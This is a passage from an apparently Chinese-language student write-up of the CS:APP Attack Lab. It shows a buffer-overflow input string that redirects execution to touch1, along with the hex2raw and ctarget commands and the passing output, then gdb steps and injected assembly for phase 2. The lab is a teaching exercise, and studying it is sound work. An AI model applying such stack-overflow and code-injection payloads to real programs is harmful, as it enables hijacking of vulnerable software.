 发现是在 `0x401f24` 处。

于是得出输入字符串（注意每一行结尾似乎都应该还有一个空格）：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
24 1f 40 00
```

编码成 raw 字符串并测试（即将上面的内容根据 ASCII 码翻译为真实输入）：

```bash
./hex2raw < p1.txt > ans1.txt
./ctarget -i ans1.txt
```

通过：

```text
Cookie: 0x11a67610
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 2

首先，启动 gdb 并设置断点以进行调试。

因为我们的注入代码会放到缓冲区，而我们要进行 ROP 攻击，就需要知道注入的攻击代码的存放地址，也即缓冲区起始地址。

```bash
gdb ctarget
b getbuf
r
layout asm
layout regs
```

待到 `sub $0x18,%rsp` 这条执行完后，也就可以获得当前的栈指针，即缓冲区起始地址 `0x55634688`

![Cleanshot-2023-10-17-at-16.24.35](https://cdn.arthals.ink/bed/2024/01/Cleanshot-2023-10-17-at-16.24.35-4bdc4a975b5cbb41c412e8517c4268fb.png)

然后，编写我们的代码，储存为 `p2.s`：

```asm
movq $0x11a67610,%rdi
pushq $0x401f58
ret
```

这段代码的效果：

1. 将 **立即数** `$0x11a67610` 设置为 `%rdi` 寄存器的值，也即第一个参数
2. 将 **立即数** `$0x401f58` 压入栈中
3. 返回
